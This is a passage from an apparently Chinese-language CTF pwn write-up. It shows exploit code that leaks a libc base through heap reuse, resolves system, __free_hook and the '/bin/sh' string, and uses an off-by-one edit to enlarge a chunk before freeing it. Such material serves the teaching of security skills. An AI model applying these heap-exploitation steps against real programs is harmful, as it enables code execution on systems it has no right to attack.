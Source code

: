 ```plain
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)
add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

[![](assets/1701606615-2913be0d66c3c7e56e1b8a81449c24fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213316-884b25d2-83bb-1.png)  
然后直接利用 off by one 修改 size，然后把这个 chunk free 掉

```plain
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')

edit(2,p64(0)*3+p8(0x81))
delete(3)
```

[![](assets/1701606615-f71e9afc0c1acd0fa3c829bb022a61c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213336-9478687e-83bb-1.png)
